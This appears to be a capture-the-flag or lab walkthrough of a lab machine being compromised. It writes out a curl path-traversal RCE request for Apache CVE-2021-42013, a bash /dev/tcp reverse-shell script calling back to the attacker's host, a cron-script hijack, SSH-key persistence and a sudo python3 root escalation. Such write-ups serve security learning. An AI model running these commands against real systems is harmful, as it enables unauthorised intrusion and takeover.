 ```yaml
---
share_link: https://share.note.sx/qobh9tbr#LXUDoqaLKnLUxpvne9H2nShJLvG6L5dHyVOAkouWabE
share_updated: 2025-05-09T18:26:08+05:30
---
```


##  Step 1: Discovering the Target

To begin, I scanned the local network to identify active hosts using `arp-scan`:

```bash
sudo arp-scan --local
```

![[Pasted image 20250503004010.png]]

-  **Target IP Identified:** `192.168.112.115`
    

---

##  Step 2: Port Scanning

With the target IP in hand, I scanned it using Nmap to discover open ports and services:

```bash
nmap 192.168.112.115
```

![[Pasted image 20250507224617.png]]

The scan revealed two open ports:

- **Port 22** – SSH
    
- **Port 80** – HTTP
    

I ran another scan to confirm service details:

![[Pasted image 20250503004247.png]]

- Port 80 is running **Apache HTTPD**
    
- Port 22 is running **OpenSSH**
    

---

##  Step 3: Web Enumeration

Navigated to the web interface at `http://192.168.112.115`:

![[Pasted image 20250503004400.png]]

Unfortunately, there wasn’t much to see. To dig deeper, I ran a directory brute-force scan.

![[Pasted image 20250503004814.png]]

-  No interesting directories or files were discovered.
    

---

##  Step 4: Exploiting Apache (CVE-2021-42013)

Suspecting a vulnerable Apache version, I searched for related exploits and found **[CVE-2021-42013](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013#about-cve-2021-42013)** — a known **path traversal + RCE** vulnerability.

![[Pasted image 20250503005037.png]]

I tested for Local File Inclusion (LFI), which worked, and then moved to Remote Code Execution using [this exploit](https://github.com/sergiovks/LFI-RCE-Unauthenticated-Apache-2.4.49-2.4.50/blob/main/exploit.py):

![[Pasted image 20250503005406.png]]

Verified RCE with the following `curl` command:

```bash
curl -X POST http://192.168.112.115/cgi-bin/%%32%65%%32%65/.../bin/sh \
  -d 'echo Content-Type: text/plain; echo; id'
```

-  Success! Remote code was executed as the `daemon` user.
    

---

##  Step 5: Reverse Shell Access

Next, I prepared a reverse shell payload:

**`bashshell.sh`**

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.112.156/1111 0>&1
```

I hosted the script on my machine and transferred it to the target:

![[Pasted image 20250503005518.png]]  
![[Pasted image 20250503005622.png]]

After triggering the reverse shell:

![[Pasted image 20250503005710.png]]

-  Shell received on my listener!


---

##  Step 6: Privilege Escalation to User

While exploring the system, I found a suspicious script named `tmp.sh` in the root directory:

![[Pasted image 20250503005914.png]]

Interestingly, this file was:

- Globally writable 
    
- Being executed every 10 seconds by user `samsingh` 
    

![[Pasted image 20250503010027.png]]

I replaced the contents of `tmp.sh` with another reverse shell:

![[Pasted image 20250503010131.png]]

Soon after, I caught a shell running as `samsingh`:

![[Pasted image 20250503010224.png]]

With this new access, I grabbed the `user.txt` flag and added my SSH public key for stable access:

![[Pasted image 20250503010330.png]]

---

##  Step 7: Root Privilege Escalation

Now connected as `samsingh` via SSH:

![[Pasted image 20250503010506.png]]

Checking `sudo -l`, I found that `python3` could be run as **root without a password**:

![[Pasted image 20250503010628.png]]

I used the following command to spawn a root shell:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

![[Pasted image 20250503010739.png]]

 **Root access achieved!**

